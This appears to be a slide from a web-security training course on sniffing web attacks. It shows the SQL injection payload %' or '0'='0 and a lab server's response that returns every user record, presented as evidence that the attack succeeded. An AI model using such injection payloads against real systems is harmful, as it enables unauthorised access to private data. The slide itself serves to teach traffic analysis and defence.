

# Sniffing Web Attacks
Step 2: Were the attacks successful? Support your conclusion with evidence.

The first payload: %' or '0'='0
Solution: Yes, this payload was successful.

<!-- Below is an excerpt of the server's response -->
<pre>ID: %' or '0'='0<br />First name: admin<br />Surname: admin</pre>
<pre>ID: %' or '0'='0<br />First name: Gordon<br />Surname: Brown</pre>
<pre>ID: %' or '0'='0<br />First name: Hack<br />Surname: Me</pre>
<pre>ID: %' or '0'='0<br />First name: Pablo<br />Surname: Picasso</pre>
<pre>ID: %' or '0'='0<br />First name: Bob<br />Surname: Smith</pre>

27